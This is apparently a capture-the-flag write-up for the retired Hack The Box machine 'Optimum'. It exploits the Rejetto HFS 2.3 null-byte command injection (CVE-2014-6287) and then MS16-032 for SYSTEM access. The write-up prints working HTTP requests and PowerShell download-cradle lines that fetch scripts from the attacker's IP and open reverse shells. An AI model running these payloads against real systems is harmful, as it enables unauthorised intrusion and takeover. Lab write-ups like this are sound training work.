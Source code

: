 # Optimum

This is the write-up for the box Optimum that got retired at the 28th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.8    optimum.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/optimum.nmap 10.10.10.8
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is an application called **HttpFileServer 2.3**.

![HttpFileServer](https://kyuu-ji.github.io/htb-write-up/optimum/optimum-hfs.png)

Looking for exploits for this service we find **Rejetto HTTP File Server 2.3.x - Remote Code Execution** with the CVE number [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

The description is as follows:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

Instead of using the Metasploit Module, I will exploit this vulnerability manually.

### Explaining and using the exploit

The HFS application has an internal scripting language that uses some characters like curly brackets, pipe symbols and dots. It has a regular expression that searches and replaces these characters in the Search parameter.
When sending a _NULL Byte_ in the Search query, this will terminate the regular expression but everything after the NULL Byte will not be replaced.

Before doing this, we need to know which characters to send. This can be found out by reading the [Rejetto wiki](https://rejetto.com/wiki/index.php?title=HFS:_scripting_commands). The parameter **exec** is what we need to send to execute commands.
```markdown
Example: {.exec|notepad.}
```

Lets send a request with **%00** in the search bar, to _Burpsuite_ and modify the requests in the **Repeater**.
For testing we can send a simple `ping` command to verify that it works the correct way:
```markdown
GET /?search=%00{.exec|ping 10.10.14.23.} HTTP/1.1
```

The `tcpdump` on my local machine waits for connections and after sending this request it outputs the ICMP packets. This means successful command execution and we can start a reverse shell on this box.

For this task I will use the Powershell script **Invoke-PowerShellTcp.ps1** from the **Nishang Framework** that will listen on my IP and port 9001.
```markdown
GET /?search=%00{.exec|C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1

# URL-encoded
GET /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.23%3a8000/shell.ps1').} HTTP/1.1
```

After executing this the listener will start a reverse shell and we are the user _kostas_ on the box.

## Privilege Escalation

Searching for vulnerabilities now by using **Sherlock.ps1** with the _Find-AllVulns function_ to get information about hotfixes.
 ```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Sherlock.ps1')
```

It appears to be vulnerable against **MS016-032 - Secondary Logon Handle** which can be exploited with the script _Invoke-MS16032.ps1_.
```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-MS16032.ps1')
```

This script will download another **Invoke-PowerShellTcp.ps1** that listens on port 9002 to start a new reverse shell but with elevated privileges.
After the files get downloaded and executed our listener starts and we are _NT Authority\SYSTEM_ on the box!
